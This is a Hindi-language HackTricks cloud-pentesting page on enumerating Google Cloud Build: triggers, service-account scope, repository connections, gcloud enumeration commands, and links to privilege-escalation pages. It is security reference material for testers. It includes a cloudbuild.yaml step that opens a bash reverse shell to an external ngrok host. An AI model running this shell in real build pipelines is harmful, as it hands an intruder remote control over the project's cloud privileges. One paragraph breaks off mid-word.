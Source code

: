 # GCP - क्लाउड बिल्ड एनुम

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PR जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफ़ॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड भंडारों** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को स्वचालित रूप से निर्माण, परीक्षण और डिप्लॉय** करने की अनुमति देता है जबकि निर्माण चरणों और कार्यप्रवाहों को अनुकूलित करने की लचीलाता प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित है या सीधे एक बाह्य रिपॉजिटरी** (Github, Bitbucket और Gitlab) से कनेक्ट किया गया है।

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से **Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा** क्योंकि जब रेपो डाउनलोड किया जाता है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build को निम्नलिखित की गई स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा निर्दिष्ट करें
* **नया टैग पुश**: टैग निर्दिष्ट करें
* **पुल अनुरोध**: पीआर प्राप्त करने वाली शाखा निर्दिष्ट करें
* **मैन्युअल आवाहन**
* **Pub/Sub संदेश**: विषय निर्दिष्ट करें
* **वेबहुक घटना**: एक HTTPS URL उजागर करेगा और अनुरोध को एक गुप्त से प्रमाणित करना होगा

### क्रियान्वयन

3 विकल्प हैं:

* एक yaml/json **निर्देशित करना** जो कमांड्स को निष्पादित करेगा। सामान्यत: `/cloudbuild.yaml`
* केवल एक जो वेब कांसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे सामान्य विकल्प
* अप्रमाणित एक्सेस के लिए महत्वपूर्ण
* निर्माण करने के लिए **एक Dockerfile**
* निर्माण करने के लिए **एक Buildpack**

### SA अनुमतियाँ

**सेवा खाता में `cloud-platform` scope है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** अगर **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का उपयोग होगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी गई हैं लेकिन इसे कुछ अनुमतियाँ देना बहुत आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### मंजूरी

एक Cloud Build को **निर्माण क्रियाओं के लिए मंजूरी की आवश्यकता** हो सकती है (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन और रिपॉजिटरी

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जिसमें अनुमतियाँ के लिए **एक Github टोकन प्राप्त करने** के लिए पूछा जाएगा जो **सीक्रेट मैनेजर में स्टोर किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक **सीक्रेट मैनेजर** सीक्रेट के रूप में स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन** प्रदान करना होगा जो **सीक्रेट मैनेजर में स्टोर** किया जाएगा।

एक कनेक्शन उत्पन्न होने के बाद, आप इसे उपयोग कर सकते हैं **जिसमें Github खाता पहुंच है**।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस तरीके से कनेक्ट किए गए रिपॉजिटरी **केवल 2वीं पीढ़ी का उपयोग करने वाले ट्रिगर्स में ही उपलब्ध हैं।**
{% endhint %}

### रिपॉजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **अलग** तरीके से **एक Github या Bitbucket** रिपॉजिटरी तक पहुंचने के लिए विभिन्न तरीके प्रदान करता है लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह 1वीं पीढ़ी का रिपॉजिटरी ऑब्ज
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, बनाया गया है ताकि इसमें उपयोग के लिए फ़ाइल्स के साथ `.tgz` स्टोर किया जा सके।

### शैल को प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### जांच

आप **बिल्ड कॉन्फ़िग और लॉग में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुंच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
